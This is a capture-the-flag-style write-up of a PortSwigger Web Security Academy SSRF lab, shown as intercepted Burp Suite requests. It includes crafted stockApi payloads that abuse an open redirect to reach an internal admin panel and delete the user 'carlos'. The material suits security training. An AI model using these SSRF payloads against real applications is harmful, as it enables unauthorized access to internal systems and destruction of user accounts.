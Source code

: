 
## Intercepting the main stock-fetch request in BurpSuite

POST /product/stock HTTP/2
Host: 0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Cookie: session=****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net/product?productId=14
Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Origin: https://0ae6007703e16ce381d3c0f8000d001f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

stockApi=%2Fproduct%2Fstock%2Fcheck%3FproductId%3D14%26storeId%3D1

> with 'urlencode' extension

stockApi=<@urlencode>/product/stock/check?productId=14&storeId=1</@urlencode>

>	I need to bypass regular CSRF protection.
>	On the product description page there is an option to open the next product (next product).

## Intercepting this request (functionality next product)

GET /product/nextProduct?currentProductId=15&path=/product?productId=16 HTTP/2
Host: 0a9e004c0393e4df8052ad46005c008a.web-security-academy.net
Cookie: session=****
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9e004c0393e4df8052ad46005c008a.web-security-academy.net/product?productId=15
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

> I use SSRF filter bypass technology via open redirect. I replace the value of the “path” parameter with “http://192.168.0.12:8080/admin/” in main reqeust
> and receive a response with access to the admin panel.

stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/</@urlencode>

> I access the admin panel and users.

![Access Admin panel](/home/sonyahack/1/fs/red/labs/PortSwigger/SSRF-5/screenshots/access_admin_panel.png)

> I delete the user 'Carlos' with url 'http://192.168.0.12:8080/admin/delete?username=carlos'
 
stockApi=<@urlencode>/product/nextProduct?currentProductId=4&path=http://192.168.0.12:8080/admin/delete?username=carlos</@urlencode>

![Solved lab](/home/sonyahack/1/fs/red/labs/PortSwigger/SSRF-5/screenshots/solved_lab.png)
